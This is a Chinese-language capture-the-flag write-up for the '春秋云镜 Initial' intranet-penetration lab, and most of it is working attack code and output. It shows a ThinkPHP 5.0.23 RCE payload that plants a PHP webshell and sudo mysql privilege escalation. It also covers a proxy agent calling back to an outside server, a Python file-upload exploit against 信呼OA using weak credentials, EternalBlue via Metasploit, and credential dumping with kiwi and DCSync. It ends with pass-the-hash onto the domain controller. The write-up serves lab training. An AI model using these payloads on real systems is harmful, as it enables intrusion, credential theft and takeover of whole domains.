










# 春秋云镜 & Initial

## 靶标介绍
`Initial`是一套难度为简单的靶场环境，完成该挑战可以帮助玩家初步认识内网渗透的简单流程。该靶场只有一个`flag`，各部分位于不同的机器上。

## 攻击流程

题目给出的初始`IP`对应的是一个`ThinkPHP`框架开发的管理系统，发现存在`ThinkPHP 5.0.23 RCE`漏洞，写入一句话木马后用蚁剑连接

```html
http://39.99.234.215/?s=captcha&test=-1

POST:
_method=__construct&filter[]=system&method=GET&server[REQUEST_METHOD]=echo%20PD9waHAgQGV2YWwoJF9SRVFVRVNUWzFdKTs%2FPg%3D%3D%7Cbase64%20-d%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fh3.php
```

`www-data`权限，尝试`SUID`提权，发现`mysql`命令可以用于提权，在`/root/flag/flag01.txt`中拿到第一部分`flag`：`flag{60b53231-`

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
sudo -l
```



```bash
sudo mysql -e '\! ls /root/flag'
sudo mysql -e '\! cat /root/flag/flag01.txt'
```



查看网卡信息发现存在`172.22.1.1`网段，上传扫描工具`fscan`和代理工具`Stowaway`

```bash
# 加权限
sudo mysql -e '\! chmod 777 /var/www/html/fscan_amd64'
sudo mysql -e '\! chmod 777 /var/www/html/linux_x64_agent'

# 扫描网段
./fscan_amd64 -h 172.22.1.1/24 -np

# 服务器
./linux_x64_admin -l 22222 -s h3rmesk1t
# 靶机
./linux_x64_agent -c "114.55.6.121:22233" -s h3rmesk1t
```



`fscan`扫描结果，`172.22.1.2`地址为域控主机地址，`172.22.1.21`地址主机存在`MS17-010`漏洞，`172.22.1.18`地址存在`信呼OA`应用

```text
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.18     is alive
(icmp) Target 172.22.1.21     is alive
(icmp) Target 172.22.1.15     is alive
[*] Icmp alive hosts len is: 4
172.22.1.18:3306 open
172.22.1.21:445 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.18:139 open
172.22.1.21:139 open
172.22.1.2:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.2:88 open
172.22.1.15:22 open
[*] alive ports len is: 14
start vulscan
[*] NetInfo:
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetInfo:
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] WebTitle: http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] NetInfo:
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetBios: 172.22.1.2      [+]DC DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[+] 172.22.1.21	MS17-010	(Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] 172.22.1.2  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600 
[*] WebTitle: http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] WebTitle: http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[+] http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
```

先对`172.22.1.18`地址存在的`信呼OA`应用进行漏洞测试，利用弱口令`admin/admin123`进入后台，打文件上传漏洞，任务资源->文档传送->上传文件，攻击脚本如下

```python
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

```php
<?= @eval($_REQUEST[1]);?>
```



在`C:/Users/Administrator/flag/flag02.txt`中拿到第二部分`flag`：`2ce3-4813-87d4-`



接着打`172.22.1.21`地址主机存在的`MS17-010`漏洞，利用`msf`进行攻击，建立正向连接，`system`权限

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set RHOSTS 172.22.1.21
exploit
```



抓取一下用户的`hash`

```bash
load kiwi
creds_all
```

```
XIAORANG-WIN7$  XIAORANG  84efe3532fa285d59f61fcb11e6d83f2  a8cca0b211cdb2503fa1554968b7fa981b3d7502
```

接着上传`SharpHound.exe`来搜集一下域内信息

```bash
upload "/Users/alphag0/Desktop/Tools/Penetration/AD Security/SharpHound/SharpHound.exe" "C:/SharpHound.exe"

shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231108104348_BloodHound.zip" "/Users/alphag0/Desktop/"
```





可以看到`XIAORANG-WIN7`能打`DCSync`



利用`DCSync`来`dump`域内所有用户的`hash`

```bash
load kiwi
kiwi_cmd lsadump::dcsync /all /csv
```

```
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502	krbtgt	fb812eea13a18b7fcdb8e6d67ddc205b	514
1106	Marcus	e07510a4284b3c97c8e7dee970918c5c	512
1107	Charles	f6a9881cd5ae709abb4ac9ab87f24617	512
500	Administrator	10cf89a850fb1cdbe6bb432b859164c8	512
1000	DC01$	4cbd17f9b02c983c440393478ea4408c	532480
1108	XIAORANG-WIN7$	84efe3532fa285d59f61fcb11e6d83f2	4096
1104	XIAORANG-OA01$	2480adae09d2e045e2dbcc5b1ea425fb	4096
```

利用`impacket-wmiexec`进行横向移动来访问域控，在`C:\Users\Administrator\flag\flag03.txt`中拿到第三部分`flag`：`e8f88d0d43d6}`

```bash
python wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8
```

